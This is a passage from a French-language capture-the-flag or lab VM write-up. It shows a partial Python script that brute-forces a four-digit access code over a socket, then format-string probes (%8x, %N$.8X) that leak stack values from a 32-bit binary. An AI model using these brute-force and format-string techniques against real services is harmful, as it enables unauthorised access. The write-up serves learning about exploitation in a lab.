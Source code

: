 ```python
                    sock.connect(("192.168.3.2", 1337))
                except ConnectionRefusedError:
                    sleep(5)
                    continue
                else:
                    break

        code = "{:04}".format(i)
        msg = wait_until(sock, ("\nACCESS CODE:", "SESSION"))
        if msg == "\nACCESS CODE:":
            sock.send(code.encode() + b"\n")
            successive_attempts += 1
        else:
            print("Found code", str(code-1))
            return code-1

    sock.close()
    print("I'm done with", i)
    return -1

with Pool(NB_PROCESS) as pool:
    print(pool.map(brute, ranges))
```

Seulement le service semble mal digérer ces connexions parallèles et semble bloquer pour une raison inconnue. La vérité est donc ailleurs.  

On suppose alors que le binaire est vulnérable d'entrée de jeu. Dans un cas comme celui-ci une faille de chaîne de format semble la plus probable.  

```plain
ACCESS CODE: %8x
ERROR #1: INVALID ACCESS CODE: bfc3f5cc
```

Bingo ! On peut alors remonter les valeurs sur la stack. Notez que la VM est une machine Linux 32bits.  

```plain
ACCESS CODE: %2$.8X
ERROR #1: INVALID ACCESS CODE: 00000000

ACCESS CODE: %3$.8X
ERROR #1: INVALID ACCESS CODE: 00000F89

ACCESS CODE: %4$.8X
ERROR #1: INVALID ACCESS CODE: BFC3F5CC

ACCESS CODE: %5$.8X
ERROR #1: INVALID ACCESS CODE: 00000000

ACCESS CODE: %6$.8X
ERROR #1: INVALID ACCESS CODE: 0000000A

ACCESS CODE: %7$.8X
ERROR #1: INVALID ACCESS CODE: 65527800
```
